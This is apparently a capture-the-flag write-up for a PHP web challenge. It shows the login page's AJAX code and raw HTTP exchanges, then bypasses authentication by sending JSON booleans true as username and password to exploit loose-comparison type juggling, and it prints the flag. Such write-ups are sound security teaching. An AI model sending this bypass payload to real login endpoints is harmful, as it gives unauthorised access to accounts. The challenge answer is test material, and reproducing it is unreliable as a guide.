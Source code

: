 # Challenge Name: coercion


![date](https://img.shields.io/badge/date-26.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-150-blue.svg)  


## Description

We've designed this web application to be a bit tricky, so see if you can find the flag hidden in our code. Good luck!

[https://ideh-coercion.chals.io](https://ideh-coercion.chals.io)

**Author** : c3p0d4y

## Detailed solution

Checking our web app 

![image](https://user-images.githubusercontent.com/72421091/221641857-45fb86fb-0385-4911-bb8f-ad5b08be4fae.png)

We have a login page with a script code for sending a post request to login.php using AJAX with username and password in a json format

```js
<script>
$(document).ready(function(){
    $("#result").hide();
    $('#login_submit').click(function()
    {
        var formData = JSON.stringify($("#login").serializeArray());
        $.ajax({
            type: "POST",
                url: "login.php",
                dataType: "json",
                data: '{"username": "' + $('#uname').val() + '", "password" : "' + $('#password').val() + '"}',
                contentType: 'application/json',
                cache:false,
                success : function(result) {
                        console.log(result);
                    $("#login-form").hide();
                    $("#result").show();
                    if(result.status === "success" ){
                        $('#message').html(result.message);
                        $('#message').addClass('alert alert-success');
                                                              } else {
                        $('#message').html(result.message);
                        $('#message').addClass('alert alert-danger');
                    }

                }
        });
        return false; 
    });
});
</script>
```
Quick check for login and response

```http
POST /login.php HTTP/1.1
Host: ideh-coercion.chals.io
Connection: close
Content-Length: 43
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/json
Origin: https://ideh-coercion.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ideh-coercion.chals.io/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username": "admin", "password" : "admin"}
```

```http
HTTP/1.1 200 OK
Date: Mon, 27 Feb 2023 17:46:03 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Content-Length: 61
Connection: close
Content-Type: text/html; charset=UTF-8

{"status": "error", "message":"Invalid username or password"}
```
We need to find a way to bypass login

Php coercion or type juggling deal badly when if you want to combine multiple different data types together while using loose comparisons "==". It's has a known as Php type juggling  

More Details : 
- https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
- https://www.php.net/manual/en/language.types.type-juggling.php

![image](https://user-images.githubusercontent.com/72421091/221639083-1ff898ed-3f37-4d8d-859e-cd57c4b2d3a2.png)

When a string is being coerced to boolean it give as true 

```
"45X"   --> true      // not numeric string, fall back to bool
```

It's possible that our app has a test case for login with loose comparisons "==" and string values. 

Let's check what happens if we sent true for username and password

```http
POST /login.php HTTP/1.1
Host: ideh-coercion.chals.io
Connection: close
Content-Length: 37
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/json
Origin: https://ideh-coercion.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ideh-coercion.chals.io/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username": true, "password" : true}
```

```http
HTTP/1.1 200 OK
Date: Mon, 27 Feb 2023 17:47:31 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Length: 98
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":"success","message":"Successfully authenticated","flag":"IDEH{Type_Ju9G11ng_CH411En93}"}
```

We were able to bypass login check and get our flag


## Flag

```
IDEH{Type_Ju9G11ng_CH411En93}
```
